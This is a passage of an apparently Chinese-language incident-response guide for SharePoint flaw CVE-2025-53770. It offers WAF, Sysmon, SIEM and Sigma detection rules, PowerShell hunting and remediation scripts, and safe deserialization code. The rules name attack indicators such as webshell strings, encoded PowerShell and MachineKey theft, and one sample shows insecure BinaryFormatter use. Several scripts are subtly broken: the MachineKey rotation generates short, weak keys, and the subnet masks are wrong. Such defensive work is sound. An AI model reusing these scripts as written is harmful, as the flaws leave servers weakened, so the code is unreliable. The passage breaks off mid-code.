SecRule REQUEST_FILENAME "@rx /_layouts/15/ToolPane\.aspx" \
  "id:7770001,\
   phase:1,\
   t:lowercase,\
   chain,\
   deny,\
   status:403,\
   log,\
   msg:'CVE-2025-53770: ToolPane.aspx access blocked'"
    SecRule REQUEST_HEADERS:Referer "@rx SignOut\.aspx" "t:lowercase"

# 规则2: 检测异常大的 POST 请求
SecRule REQUEST_METHOD "@streq POST" \
  "id:7770002,\
   phase:2,\
   chain"
    SecRule REQUEST_URI "@rx /_layouts/.*\.aspx" \
      "chain"
        SecRule REQUEST_HEADERS:Content-Length "@gt 51200" \
          "deny,\
           status:413,\
           log,\
           msg:'CVE-2025-53770: Abnormally large POST to SharePoint layout page'"

# 规则3: 检测 ExcelDataSet 控件滥用
SecRule REQUEST_BODY "@rx (?i)<type\s+name\s*=\s*["']Microsoft\.PerformancePoint.*ExcelDataSet" \
  "id:7770003,\
   phase:2,\
   t:lowercase,\
   deny,\
   status:406,\
   log,\
   msg:'CVE-2025-53770: ExcelDataSet control detected in request'"

# 规则4: 检测 Base64 编码的大块数据
SecRule REQUEST_BODY "@rx [A-Za-z0-9+/]{5000,}={0,2}" \
  "id:7770004,\
   phase:2,\
   chain"
    SecRule REQUEST_URI "@rx /_layouts/.*ToolPane" \
      "deny,\
       status:406,\
       log,\
       msg:'CVE-2025-53770: Large Base64 payload to ToolPane'"

# 规则5: 白名单模式 (仅允许认证用户访问 ToolPane)
SecRule REQUEST_FILENAME "@rx /_layouts/15/ToolPane\.aspx" \
  "id:7770005,\
   phase:1,\
   chain"
    SecRule &REQUEST_COOKIES:FedAuth "@eq 0" \
      "deny,\
       status:401,\
       log,\
       msg:'CVE-2025-53770: Unauthenticated ToolPane access blocked (no FedAuth cookie)'"
```

**12.2.2 NGINX 反向代理规则**

```
# SharePoint 前置 NGINX 配置
server {
    listen 443 ssl http2;
    server_name sharepoint.company.com;
    
    # CVE-2025-53770 防护
    location ~ ^/_layouts/15/ToolPane\.aspx {
        # 检查 Referer
        if ($http_referer ~* "SignOut\.aspx") {
            return 403 "CVE-2025-53770 Protection: ToolPane access with SignOut referer blocked";
        }
        
        # 检查 Content-Length
        if ($http_content_length > 51200) {
            return 413 "Request too large";
        }
        
        # 要求认证 Cookie
        if ($http_cookie !~* "FedAuth|rtFa") {
            return 401 "Authentication required";
        }
        
        proxy_pass https://backend-sharepoint;
    }
    
    # 阻断直接访问 LAYOUTS 目录的 .aspx 文件 (除了白名单)
    location ~ ^/_layouts/15/.+\.aspx$ {
        # 白名单
        if ($uri ~* "/(start|settings|viewlsts|error)\.aspx$") {
            proxy_pass https://backend-sharepoint;
            break;
        }
        
        # 其他 .aspx 要求强认证
        auth_request /auth;
        proxy_pass https://backend-sharepoint;
    }
    
    # 监控可疑请求
    location ~ ^/_layouts/ {
        access_log /var/log/nginx/sharepoint_layouts.log combined_custom;
        error_log /var/log/nginx/sharepoint_layouts_error.log warn;
        
        proxy_pass https://backend-sharepoint;
    }
}

# 自定义日志格式 (便于检测分析)
log_format combined_custom '$remote_addr - $remote_user [$time_local] '
                           '"$request" $status $body_bytes_sent '
                           '"$http_referer" "$http_user_agent" '
                           '$request_length $request_time '
                           '$upstream_response_time';
```

#### 12.3 主机层检测 (Layer 5-6)

**12.3.1 Sysmon 配置** (Windows 事件增强)

```
<Sysmon schemaversion="4.82">
  <EventFiltering>
    
    <!-- 检测 w3wp.exe 创建子进程 (CVE-2025-53770 特征) -->
    <ProcessCreate onmatch="include">
      <ParentImage condition="is">C:\Windows\System32\inetsrv\w3wp.exe</ParentImage>
      <Image condition="is any">cmd.exe;powershell.exe;pwsh.exe;cscript.exe;wscript.exe</Image>
    </ProcessCreate>
    
    <!-- 检测 PowerShell EncodedCommand -->
    <ProcessCreate onmatch="include">
      <ParentImage condition="is">C:\Windows\System32\inetsrv\w3wp.exe</ParentImage>
      <CommandLine condition="contains">-encodedcommand</CommandLine>
    </ProcessCreate>
    <ProcessCreate onmatch="include">
      <ParentImage condition="is">C:\Windows\System32\inetsrv\w3wp.exe</ParentImage>
      <CommandLine condition="contains">-enc</CommandLine>
    </ProcessCreate>
    
    <!-- 检测 LAYOUTS 目录的文件创建 -->
    <FileCreate onmatch="include">
      <TargetFilename condition="contains">Microsoft Shared\Web Server Extensions</TargetFilename>
      <TargetFilename condition="contains">TEMPLATE\LAYOUTS</TargetFilename>
      <TargetFilename condition="end with">.aspx</TargetFilename>
    </FileCreate>
    
    <!-- 检测 web.config 访问 (MachineKey 提取) -->
    <FileCreate onmatch="include">
      <TargetFilename condition="contains">VirtualDirectories</TargetFilename>
      <TargetFilename condition="end with">web.config</TargetFilename>
      <Image condition="is not">C:\Windows\System32\inetsrv\w3wp.exe</Image>
    </FileCreate>
    
    <!-- 检测异常网络连接 (w3wp.exe 不应主动外联) -->
    <NetworkConnect onmatch="include">
      <Image condition="is">C:\Windows\System32\inetsrv\w3wp.exe</Image>
      <Initiated condition="is">true</Initiated>
      <DestinationPort condition="is not">1433</DestinationPort>  <!-- 排除 SQL -->
    </NetworkConnect>
    
    <!-- 检测注册表修改 (持久化) -->
    <RegistryEvent onmatch="include">
      <Image condition="is">C:\Windows\System32\inetsrv\w3wp.exe</Image>
      <TargetObject condition="contains">CurrentVersion\Run</TargetObject>
    </RegistryEvent>
    
  </EventFiltering>
</Sysmon>
```

**12.3.2 Windows 事件日志查询** (PowerShell)

```
# 查询1: 检测 w3wp.exe 创建可疑子进程
Get-WinEvent -FilterHashtable @{
    LogName='Microsoft-Windows-Sysmon/Operational'
    ID=1  # ProcessCreate
} | Where-Object {
    $_.Properties[20].Value -eq 'C:\Windows\System32\inetsrv\w3wp.exe' -and
    $_.Properties[4].Value -match '(cmd|powershell|cscript)\.exe'
} | Select TimeCreated, 
    @{N='ParentImage';E={$_.Properties[20].Value}},
    @{N='Image';E={$_.Properties[4].Value}},
    @{N='CommandLine';E={$_.Properties[10].Value}}

# 查询2: 检测 LAYOUTS 目录的新文件
Get-WinEvent -FilterHashtable @{
    LogName='Microsoft-Windows-Sysmon/Operational'
    ID=11  # FileCreate
} | Where-Object {
    $_.Properties[2].Value -match 'TEMPLATE\LAYOUTS.*\.aspx$'
} | Select TimeCreated,
    @{N='Process';E={$_.Properties[4].Value}},
    @{N='TargetFilename';E={$_.Properties[2].Value}}

# 查询3: 检测 w3wp.exe 的出站连接
Get-WinEvent -FilterHashtable @{
    LogName='Microsoft-Windows-Sysmon/Operational'
    ID=3  # NetworkConnect
} | Where-Object {
    $_.Properties[4].Value -eq 'C:\Windows\System32\inetsrv\w3wp.exe' -and
    $_.Properties[9].Value -eq 'true' -and  # Initiated
    $_.Properties[14].Value -ne '1433'      # Not SQL
} | Select TimeCreated,
    @{N='DestinationIp';E={$_.Properties[13].Value}},
    @{N='DestinationPort';E={$_.Properties[14].Value}}
```

#### 12.4 SIEM 检测规则 (Layer 7)

**12.4.1 Splunk 查询**

```
# 查询1: IIS 日志异常模式
index=iis_logs sourcetype=iis
  cs_uri_stem="/_layouts/15/ToolPane.aspx"
  cs_method="POST"
| eval referer_suspicious=if(like(cs_Referer, "%SignOut.aspx"), 1, 0)
| eval large_post=if(cs_bytes>51200, 1, 0)
| where referer_suspicious=1 OR large_post=1
| stats count by src_ip, cs_uri_stem, cs_Referer, cs_bytes
| where count > 3
| eval severity="HIGH"
| eval cve="CVE-2025-53770"

# 查询2: 关联 IIS 日志和进程创建事件
index=iis_logs sourcetype=iis cs_uri_stem="*ToolPane.aspx*"
| join type=inner src_ip 
  [ search index=windows EventCode=1 ParentImage="*w3wp.exe*" Image="*powershell.exe*" 
  | rename ComputerName as src_ip ]
| table _time, src_ip, cs_uri_stem, Image, CommandLine
| eval alert="CVE-2025-53770 Exploitation Detected!"

# 查询3: 检测 webshell 文件创建 + 后续访问
index=windows EventCode=11 TargetFilename="*LAYOUTS*.aspx"
| join type=inner TargetFilename 
  [ search index=iis_logs cs_uri_stem="*sp*.aspx*" earliest=-5m ]
| table _time, TargetFilename, src_ip, cs_uri_query
| eval alert="Webshell deployment and access detected"

# 查询4: 时间窗口关联 (攻击链检测)
index=iis_logs OR index=windows
| transaction src_ip maxspan=30m startswith=(cs_uri_stem="*ToolPane.aspx*") endswith=(EventCode=11 TargetFilename="*.aspx")
| where eventcount>2
| table _time, src_ip, cs_uri_stem, TargetFilename, EventCode
| eval attack_chain="CVE-2025-53770 Full Chain Detected"
```

**12.4.2 Elasticsearch (Elastic Security) 查询**

```
{
  "query": {
    "bool": {
      "must": [
        { "term": { "event.category": "web" } },
        { "term": { "http.request.method": "POST" } },
        { "wildcard": { "url.path": "*ToolPane.aspx*" } }
      ],
      "should": [
        { "wildcard": { "http.request.referrer": "*SignOut.aspx*" } },
        { "range": { "http.request.body.bytes": { "gt": 51200 } } }
      ],
      "minimum_should_match": 1
    }
  },
  "aggs": {
    "by_source_ip": {
      "terms": { "field": "source.ip", "size": 100 },
      "aggs": {
        "request_count": {
          "value_count": { "field": "source.ip" }
        }
      }
    }
  }
}

# EQL 查询 (事件关联)
sequence by host.name with maxspan=10m
  [file where file.path : "*\LAYOUTS\*.aspx" and event.type == "creation"]
  [network where process.name : "w3wp.exe" and destination.port != 1433]
  [process where process.parent.name : "w3wp.exe" and process.name : "powershell.exe"]
```

**12.4.3 Sigma 规则** (通用 SIEM 格式)

```
# 规则1: 检测 w3wp.exe 创建子进程
title: SharePoint w3wp Process Spawning Suspicious Child
id: cve-2025-53770-001
status: production
description: Detects w3wp.exe spawning cmd/powershell, indicating CVE-2025-53770 exploitation
references:
    - https://msrc.microsoft.com/CVE-2025-53770
author: Security Team
date: 2025/07/19
modified: 2025/11/07
tags:
    - attack.execution
    - attack.t1059.001
    - cve.2025.53770
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        ParentImage|endswith: '\w3wp.exe'
        Image|endswith:
            - '\cmd.exe'
            - '\powershell.exe'
            - '\pwsh.exe'
    condition: selection
falsepositives:
    - Legitimate SharePoint admin scripts
level: high

---

# 规则2: 检测 LAYOUTS 目录的 .aspx 文件创建
title: Suspicious ASPX File Creation in SharePoint LAYOUTS
id: cve-2025-53770-002
status: production
description: Detects webshell deployment in SharePoint LAYOUTS directory
references:
    - https://msrc.microsoft.com/CVE-2025-53770
author: Security Team
date: 2025/07/19
tags:
    - attack.persistence
    - attack.t1505.003
    - cve.2025.53770
logsource:
    product: windows
    category: file_event
detection:
    selection:
        TargetFilename|contains:
            - '\Web Server Extensions\'
            - '\TEMPLATE\LAYOUTS\'
        TargetFilename|endswith: '.aspx'
    filter:
        Image|endswith:
            - '\msiexec.exe'  # 排除正常安装
            - '\PSConfigUI.exe'  # 排除 SharePoint 配置
    condition: selection and not filter
falsepositives:
    - SharePoint updates/patches
level: critical

---

# 规则3: 检测 ToolPane.aspx 访问模式
title: CVE-2025-53770 ToolPane Access Pattern
id: cve-2025-53770-003
status: production
description: Detects HTTP access pattern associated with CVE-2025-53770
references:
    - https://msrc.microsoft.com/CVE-2025-53770
author: Security Team
date: 2025/07/19
tags:
    - attack.initial_access
    - attack.t1190
    - cve.2025.53770
logsource:
    category: webserver
detection:
    selection:
        cs-method: 'POST'
        cs-uri-stem|contains: '/ToolPane.aspx'
        cs-Referer|contains: 'SignOut.aspx'
    large_post:
        cs-bytes: '>51200'
    condition: selection or (selection and large_post)
falsepositives:
    - Legitimate SharePoint configuration tasks
level: high
```

#### 12.5 实时威胁狩猎脚本

**12.5.1 PowerShell 自动化狩猎**

```
<#
.SYNOPSIS
    CVE-2025-53770 自动化威胁狩猎脚本
.DESCRIPTION
    综合检测 IOC、日志异常、文件修改、进程行为
#>

function Hunt-CVE2025537770 {
    param(
        [int]$DaysBack = 7,
        [switch]$QuarantineMalware,
        [switch]$ExportReport
    )
    
    Write-Host "[*] 开始 CVE-2025-53770 威胁狩猎..." -ForegroundColor Cyan
    $startTime = (Get-Date).AddDays(-$DaysBack)
    $findings = @()
    
    # 1. 检测可疑 ASPX 文件
    Write-Host "[+] 扫描 LAYOUTS 目录..." -ForegroundColor Yellow
    $layoutsPath = "C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions"
    $suspiciousFiles = Get-ChildItem -Path $layoutsPath -Filter "*.aspx" -Recurse -ErrorAction SilentlyContinue |
        Where-Object {
            $_.CreationTimeUtc -gt $startTime -and
            $_.DirectoryName -match "TEMPLATE\LAYOUTS" -and
            $_.Length -lt 10KB
        }
    
    foreach ($file in $suspiciousFiles) {
        $content = Get-Content $file.FullName -Raw -ErrorAction SilentlyContinue
        if ($content -match 'Request\[|eval\(|Process\.Start|System\.Diagnostics') {
            $hash = (Get-FileHash $file.FullName -Algorithm SHA256).Hash
            $finding = [PSCustomObject]@{
                Type = "WebShell"
                Severity = "CRITICAL"
                Path = $file.FullName
                Created = $file.CreationTimeUtc
                Size = $file.Length
                SHA256 = $hash
            }
            $findings += $finding
            
            Write-Host "[!] 发现可疑 webshell: $($file.FullName)" -ForegroundColor Red
            
            if ($QuarantineMalware) {
                $quarantinePath = "C:\Quarantine\$($file.Name)_$hash"
                Move-Item $file.FullName $quarantinePath -Force
                Write-Host "    已隔离到: $quarantinePath" -ForegroundColor Green
            }
        }
    }
    
    # 2. 检测可疑进程事件 (Sysmon Event ID 1)
    Write-Host "[+] 分析 Sysmon 进程事件..." -ForegroundColor Yellow
    $processEvents = Get-WinEvent -FilterHashtable @{
        LogName = 'Microsoft-Windows-Sysmon/Operational'
        ID = 1
        StartTime = $startTime
    } -ErrorAction SilentlyContinue | Where-Object {
        $xml = [xml]$_.ToXml()
        $parentImage = $xml.Event.EventData.Data | Where-Object {$_.Name -eq 'ParentImage'} | Select -ExpandProperty '#text'
        $image = $xml.Event.EventData.Data | Where-Object {$_.Name -eq 'Image'} | Select -ExpandProperty '#text'
        $cmdline = $xml.Event.EventData.Data | Where-Object {$_.Name -eq 'CommandLine'} | Select -ExpandProperty '#text'
        
        $parentImage -match 'w3wp\.exe' -and
        ($image -match '(cmd|powershell|pwsh)\.exe' -or $cmdline -match '-enc|-encodedcommand')
    }
    
    foreach ($event in $processEvents) {
        $xml = [xml]$event.ToXml()
        $cmdline = $xml.Event.EventData.Data | Where-Object {$_.Name -eq 'CommandLine'} | Select -ExpandProperty '#text'
        $image = $xml.Event.EventData.Data | Where-Object {$_.Name -eq 'Image'} | Select -ExpandProperty '#text'
        
        $finding = [PSCustomObject]@{
            Type = "SuspiciousProcess"
            Severity = "HIGH"
            Time = $event.TimeCreated
            Image = $image
            CommandLine = $cmdline
        }
        $findings += $finding
        
        Write-Host "[!] 可疑进程: $image" -ForegroundColor Red
        Write-Host "    命令行: $($cmdline.Substring(0, [Math]::Min(100, $cmdline.Length)))..." -ForegroundColor Gray
    }
    
    # 3. 检测 IIS 日志异常
    Write-Host "[+] 分析 IIS 日志..." -ForegroundColor Yellow
    $iisLogPath = "C:\inetpub\logs\LogFiles\W3SVC*"
    $iisLogs = Get-ChildItem $iisLogPath -Filter "*.log" -Recurse -ErrorAction SilentlyContinue |
        Where-Object {$_.LastWriteTimeUtc -gt $startTime}
    
    foreach ($log in $iisLogs) {
        $suspiciousEntries = Select-String -Path $log.FullName -Pattern "ToolPane\.aspx.*SignOut\.aspx" -ErrorAction SilentlyContinue
        foreach ($entry in $suspiciousEntries) {
            # 解析 IIS 日志行 (W3C格式)
            $fields = $entry.Line -split '\s+'
            if ($fields.Count -ge 10) {
                $finding = [PSCustomObject]@{
                    Type = "SuspiciousHTTP"
                    Severity = "HIGH"
                    Time = "$($fields[0]) $($fields[1])"
                    ClientIP = $fields[8]
                    URI = $fields[4]
                    Referer = $fields[-2]
                }
                $findings += $finding
                
                Write-Host "[!] 可疑 HTTP 请求: $($fields[8]) -> $($fields[4])" -ForegroundColor Red
            }
        }
    }
    
    # 4. 检测 MachineKey 访问 (文件审计日志)
    Write-Host "[+] 检查 web.config 访问..." -ForegroundColor Yellow
    $webConfigs = Get-ChildItem "C:\inetpub\wwwroot\wss\VirtualDirectories\*\web.config" -ErrorAction SilentlyContinue
    foreach ($config in $webConfigs) {
        # 需要启用文件审计才能获取访问日志
        $accessEvents = Get-WinEvent -FilterHashtable @{
            LogName = 'Security'
            ID = 4663  # Object Access
            StartTime = $startTime
        } -ErrorAction SilentlyContinue | Where-Object {
            $_.Message -match [regex]::Escape($config.FullName)
        }
        
        if ($accessEvents) {
            $finding = [PSCustomObject]@{
                Type = "ConfigAccess"
                Severity = "MEDIUM"
                File = $config.FullName
                AccessCount = $accessEvents.Count
            }
            $findings += $finding
            
            Write-Host "[!] web.config 被访问 $($accessEvents.Count) 次: $($config.FullName)" -ForegroundColor Yellow
        }
    }
    
    # 5. 生成报告
    Write-Host "`n[*] 狩猎完成,发现 $($findings.Count) 个可疑项" -ForegroundColor Cyan
    
    if ($ExportReport) {
        $reportPath = "C:\Reports\CVE-2025-53770_Hunt_$(Get-Date -F yyyyMMddHHmmss).csv"
        $findings | Export-Csv $reportPath -NoTypeInformation -Encoding UTF8
        Write-Host "[*] 报告已导出: $reportPath" -ForegroundColor Green
    }
    
    return $findings
}

# 使用
# $results = Hunt-CVE2025537770 -DaysBack 30 -QuarantineMalware -ExportReport
```

### 第13章: 纵深防护措施

#### 13.1 紧急响应行动 (黄金72小时)

```
<#
.SYNOPSIS
    CVE-2025-53770 紧急响应自动化脚本
.DESCRIPTION
    5步紧急响应: 隔离 → 评估 → 修复 → 验证 → 监控
#>

# 步骤1: 立即隔离 (网络层)
function Invoke-ImmediateIsolation {
    Write-Host "[1/5] 执行紧急隔离..." -ForegroundColor Red
    
    # 1.1 在防火墙上限制 SharePoint 访问
    New-NetFirewallRule -DisplayName "CVE-2025-53770 Emergency Block" `
        -Direction Inbound `
        -Protocol TCP `
        -LocalPort 80,443 `
        -Action Block `
        -Enabled True `
        -Profile Any
    
    # 1.2 启用 IP 白名单 (仅允许内网)
    Import-Module WebAdministration
    $site = "SharePoint - 80"
    Add-WebConfigurationProperty -Filter /system.webServer/security/ipSecurity `
        -PSPath "IIS:\Sites\$site" `
        -Name "." `
        -Value @{ipAddress='0.0.0.0';subnetMask='0.0.0.0';allowed=$false}
    
    # 添加内网白名单
    @('10.0.0.0','172.16.0.0','192.168.0.0') | ForEach-Object {
        Add-WebConfigurationProperty -Filter /system.webServer/security/ipSecurity `
            -PSPath "IIS:\Sites\$site" `
            -Name "." `
            -Value @{ipAddress=$_;subnetMask='255.0.0.0';allowed=$true}
    }
    
    Write-Host "    隔离完成,仅允许内网访问" -ForegroundColor Green
}

# 步骤2: 快速评估
function Invoke-RapidAssessment {
    Write-Host "[2/5] 执行快速评估..." -ForegroundColor Yellow
    
    $assessment = @{
        WebShells = @()
        SuspiciousProcesses = @()
        MachineKeyCompromised = $false
        ExploitationEvidence = @()
    }
    
    # 2.1 扫描 webshell
    $layoutsPath = "C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\*\TEMPLATE\LAYOUTS"
    $recentAspx = Get-ChildItem $layoutsPath -Filter "*.aspx" -Recurse -ErrorAction SilentlyContinue |
        Where-Object {$_.CreationTimeUtc -gt (Get-Date).AddDays(-7)}
    
    foreach ($file in $recentAspx) {
        $content = Get-Content $file.FullName -Raw -ErrorAction SilentlyContinue
        if ($content -match 'Request\[|eval\(|Process\.Start') {
            $assessment.WebShells += $file.FullName
            Write-Host "    [!] 发现 webshell: $($file.Name)" -ForegroundColor Red
        }
    }
    
    # 2.2 检查 MachineKey 是否可能被窃取
    $iisLogs = Get-ChildItem "C:\inetpub\logs\LogFiles\W3SVC*\*.log" -Recurse -ErrorAction SilentlyContinue |
        Where-Object {$_.LastWriteTimeUtc -gt (Get-Date).AddDays(-7)}
    
    foreach ($log in $iisLogs) {
        $webConfigAccess = Select-String -Path $log.FullName -Pattern "web\.config" -ErrorAction SilentlyContinue
        if ($webConfigAccess) {
            $assessment.MachineKeyCompromised = $true
            Write-Host "    [!] 检测到 web.config 访问,MachineKey 可能已泄露!" -ForegroundColor Red
            break
        }
    }
    
    # 2.3 检查利用证据
    $eventFilter = @{
        LogName = 'Microsoft-Windows-Sysmon/Operational'
        ID = 1
        StartTime = (Get-Date).AddDays(-7)
    }
    $suspiciousProcs = Get-WinEvent -FilterHashtable $eventFilter -ErrorAction SilentlyContinue | Where-Object {
        $xml = [xml]$_.ToXml()
        $parent = $xml.Event.EventData.Data | Where-Object {$_.Name -eq 'ParentImage'} | Select -ExpandProperty '#text'
        $parent -match 'w3wp\.exe'
    }
    
    if ($suspiciousProcs) {
        $assessment.ExploitationEvidence += "w3wp.exe spawned $($suspiciousProcs.Count) child processes"
        Write-Host "    [!] 检测到 $($suspiciousProcs.Count) 个可疑子进程" -ForegroundColor Red
    }
    
    return $assessment
}

# 步骤3: 部署补丁
function Invoke-EmergencyPatching {
    param([hashtable]$Assessment)
    
    Write-Host "[3/5] 执行紧急修复..." -ForegroundColor Yellow
    
    # 3.1 如果 MachineKey 可能泄露,立即轮换
    if ($Assessment.MachineKeyCompromised) {
        Write-Host "    [*] 轮换 MachineKey..." -ForegroundColor Cyan
        
        # 生成新密钥
        $newVK = -join ((48..57) + (65..70) | Get-Random -Count 128 | ForEach-Object {[char]$_})
        $newDK = -join ((48..57) + (65..70) | Get-Random -Count 48 | ForEach-Object {[char]$_})
        
        # 更新所有 web.config
        Add-PSSnapin Microsoft.SharePoint.PowerShell -ErrorAction SilentlyContinue
        $webApps = Get-SPWebApplication
        
        foreach ($wa in $webApps) {
            $configPath = Join-Path $wa.IisSettings[0].Path.FullName "web.config"
            [xml]$config = Get-Content $configPath
            
            $machineKey = $config.configuration.'system.web'.machineKey
            if ($machineKey) {
                $machineKey.validationKey = $newVK
                $machineKey.decryptionKey = $newDK
                $config.Save($configPath)
                Write-Host "    [+] 已更新: $configPath" -ForegroundColor Green
            }
        }
    }
    
    # 3.2 启用 AMSI (Full Mode)
    Write-Host "    [*] 启用 AMSI 完整扫描..." -ForegroundColor Cyan
    Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" `
        -Name "ScanLevel" -Value 2 -Type DWord  # 2 = Full scan
    
    # 3.3 部署官方补丁 (需要预先下载)
    $patchPath = "C:\Patches\sharepoint-kb5002754.msp"  # SharePoint 2019
    if (Test-Path $patchPath) {
        Write-Host "    [*] 安装官方补丁..." -ForegroundColor Cyan
        Start-Process msiexec.exe -ArgumentList "/update `"$patchPath`" /passive /norestart" -Wait
        Write-Host "    [+] 补丁安装完成" -ForegroundColor Green
    } else {
        Write-Host "    [!] 补丁文件不存在: $patchPath" -ForegroundColor Red
    }
    
    # 3.4 清除 webshell
    foreach ($webshell in $Assessment.WebShells) {
        $quarantine = "C:\Quarantine\$(Split-Path $webshell -Leaf)_$(Get-Date -F yyyyMMddHHmmss)"
        Move-Item $webshell $quarantine -Force
        Write-Host "    [+] 已隔离 webshell: $webshell" -ForegroundColor Green
    }
}

# 步骤4: 验证修复
function Test-RemediationEffectiveness {
    Write-Host "[4/5] 验证修复效果..." -ForegroundColor Yellow
    
    $tests = @{
        PatchInstalled = $false
        AMSIEnabled = $false
        MachineKeyRotated = $false
        WebShellsCleared = $false
    }
    
    # 4.1 验证补丁
    $installedPatches = Get-HotFix | Where-Object {$_.HotFixID -match 'KB5002754|KB5002768|KB5002760'}
    if ($installedPatches) {
        $tests.PatchInstalled = $true
        Write-Host "    [+] 补丁已安装: $($installedPatches.HotFixID -join ', ')" -ForegroundColor Green
    }
    
    # 4.2 验证 AMSI
    $amsiLevel = Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" `
        -Name "ScanLevel" -ErrorAction SilentlyContinue
    if ($amsiLevel.ScanLevel -eq 2) {
        $tests.AMSIEnabled = $true
        Write-Host "    [+] AMSI 完整扫描已启用" -ForegroundColor Green
    }
    
    # 4.3 验证 MachineKey 是否已轮换 (检查最后修改时间)
    $webConfigs = Get-ChildItem "C:\inetpub\wwwroot\wss\VirtualDirectories\*\web.config"
    $recentlyModified = $webConfigs | Where-Object {$_.LastWriteTimeUtc -gt (Get-Date).AddHours(-1)}
    if ($recentlyModified) {
        $tests.MachineKeyRotated = $true
        Write-Host "    [+] MachineKey 已轮换 (web.config 最后修改: $($recentlyModified[0].LastWriteTimeUtc))" -ForegroundColor Green
    }
    
    # 4.4 验证 webshell 已清除
    $layoutsPath = "C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\*\TEMPLATE\LAYOUTS"
    $suspiciousFiles = Get-ChildItem $layoutsPath -Filter "sp*.aspx" -Recurse -ErrorAction SilentlyContinue
    if (-not $suspiciousFiles) {
        $tests.WebShellsCleared = $true
        Write-Host "    [+] 未发现可疑 webshell" -ForegroundColor Green
    }
    
    return $tests
}

# 步骤5: 持续监控
function Enable-ContinuousMonitoring {
    Write-Host "[5/5] 启用持续监控..." -ForegroundColor Yellow
    
    # 5.1 创建计划任务 (每小时扫描一次)
    $action = New-ScheduledTaskAction -Execute "PowerShell.exe" `
        -Argument "-NoProfile -ExecutionPolicy Bypass -File C:\Scripts\Hunt-CVE2025537770.ps1"
    
    $trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Hours 1) -RepetitionDuration ([TimeSpan]::MaxValue)
    
    $principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest
    
    Register-ScheduledTask -TaskName "CVE-2025-53770 Threat Hunting" `
        -Action $action `
        -Trigger $trigger `
        -Principal $principal `
        -Description "自动威胁狩猎 CVE-2025-53770 利用活动" `
        -Force
    
    Write-Host "    [+] 已创建自动化威胁狩猎任务 (每小时执行)" -ForegroundColor Green
    
    # 5.2 启用文件系统监控
    $watcher = New-Object System.IO.FileSystemWatcher
    $watcher.Path = "C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions"
    $watcher.Filter = "*.aspx"
    $watcher.IncludeSubdirectories = $true
    $watcher.EnableRaisingEvents = $true
    
    Register-ObjectEvent -InputObject $watcher -EventName Created -SourceIdentifier FileCreated -Action {
        $path = $Event.SourceEventArgs.FullPath
        Write-EventLog -LogName Security -Source "SharePoint-Protection" -EventId 6001 `
            -EntryType Warning -Message "New ASPX file created: $path"
    }
    
    Write-Host "    [+] 已启用文件系统实时监控" -ForegroundColor Green
}

# 主函数
function Start-EmergencyResponse {
    Write-Host "`n========================================" -ForegroundColor Cyan
    Write-Host "CVE-2025-53770 紧急响应程序" -ForegroundColor Cyan
    Write-Host "========================================`n" -ForegroundColor Cyan
    
    Invoke-ImmediateIsolation
    $assessment = Invoke-RapidAssessment
    Invoke-EmergencyPatching -Assessment $assessment
    $validation = Test-RemediationEffectiveness
    Enable-ContinuousMonitoring
    
    # 生成报告
    Write-Host "`n[*] 紧急响应完成,建议重启 IIS:" -ForegroundColor Cyan
    Write-Host "    iisreset /noforce" -ForegroundColor Yellow
    
    # 输出摘要
    Write-Host "`n修复验证结果:" -ForegroundColor Cyan
    $validation.GetEnumerator() | ForEach-Object {
        $status = if ($_.Value) {"[PASS]"} else {"[FAIL]"}
        $color = if ($_.Value) {"Green"} else {"Red"}
        Write-Host "  $status $($_.Key)" -ForegroundColor $color
    }
}

# 执行
# Start-EmergencyResponse
```

#### 13.2 代码级防护

**13.2.1 安全的反序列化实现**

```
// 替换危险的 BinaryFormatter
using System.Text.Json;

// 旧代码 (危险)
public object LoadData(string base64CompressedData)
{
    byte[] compressed = Convert.FromBase64String(base64CompressedData);
    using (var ms = new MemoryStream(compressed))
    using (var gz = new GZipStream(ms, CompressionMode.Decompress))
    {
        BinaryFormatter formatter = new BinaryFormatter();  // 危险!
        return formatter.Deserialize(gz);
    }
}

// 新代码 (安全)
[DataContract]
public sealed class SafeDataTableDto  // sealed 防止派生
{
    [DataMember]
    public string[][] Rows { get; set; }
    
    [DataMember]
    public string[] ColumnNames { get; set; }
}

public SafeDataTableDto LoadDataSafely(string base64CompressedData)
{
    // 1. 尺寸检查
    byte[] compressed = Convert.FromBase64String(base64CompressedData);
    if (compressed.Length > 10 * 1024 * 1024)  // 10MB 限制
        throw new SecurityException("Compressed data too large");
    
    // 2. 解压
    using (var ms = new MemoryStream(compressed))
    using (var gz = new GZipStream(ms, CompressionMode.Decompress))
    {
        // 3. 使用 JSON (无类型信息,无法实例化任意类型)
        var options = new JsonSerializerOptions
        {
            TypeInfoResolver = new DefaultJsonTypeInfoResolver(),  // 禁用多态
            MaxDepth = 32,  // 防止深度嵌套攻击
            AllowTrailingCommas = false,
            ReadCommentHandling = JsonCommentHandling.Disallow
        };
        
        return JsonSerializer.Deserialize<SafeDataTableDto>(gz, options)
            ?? throw new InvalidDataException("Deserialization failed");
    }
}
```

**13.2.2 强制 SerializationBinder (如果必须使用 BinaryFormatter)**

```
// 仅当无法移除 BinaryFormatter 时使用 (临时缓解)
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;

public sealed class SafeSerializationBinder : SerializationBinder
{
    // 白名单: 仅允许这些类型被反序列化
    private static readonly HashSet<string> AllowedTypes = new HashSet<string>
    {
        "System.Data.DataTable, System.Data, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "System.Data.DataSet, System.Data, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "System.Data.DataRow, System.Data, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
    };
    
    public override Type BindToType(string assemblyName, string typeName)
    {
        string fullTypeName = $"{typeName}, {assemblyName}";
        
        // 严格白名单检查
        if (!AllowedTypes.Contains(fullTypeName))
        {
            // 记录并拒绝
            EventLog.WriteEntry("SharePoint-Security", 
